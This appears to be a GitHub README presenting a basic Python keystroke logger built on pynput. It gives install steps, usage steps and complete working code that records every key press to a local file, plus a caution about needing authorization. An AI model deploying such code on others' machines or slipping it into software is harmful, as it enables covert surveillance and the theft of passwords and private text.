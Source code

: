 # Keylogger


Keystroke Logger using pynput

Overview:
This Python script utilizes the pynput library to create a basic keystroke logger. The script logs each key press to a specified log file.

Installation:
  To install the required pynput library, execute the following command:
    pip install pynput

Usage:
1.Install the pynput library as mentioned above.
2. Run the script by executing the keystroke_logger.py file.
3. The script will log each key press to the specified log file (keystrokes_log.txt by default).
4. Terminate the script by manually stopping the execution.

Code:

from pynput import keyboard

log_file_path = "keystrokes_log.txt"

def on_key_press(key):
    try:
        with open(log_file_path, "a") as log_file:
            log_file.write(f"{key} pressed\n")
    except Exception as e:
        print(f"Error writing to log file: {e}")

def on_key_release(key):
    pass

def main():
    with keyboard.Listener(on_press=on_key_press, on_release=on_key_release) as listener:
        listener.join()

if __name__ == "__main__":
    main()

Notes:
* The script captures each key press and appends the key to the specified log file.
* The on_key_release function is currently empty, as this example focuses on key press logging. You can modify it to handle key release events if needed.
* CAUTION: Keystroke logging may raise privacy and ethical concerns. Ensure that you have appropriate authorization before deploying or using such a tool.
* Use this script responsibly and only in scenarios where it complies with legal and ethical standards.
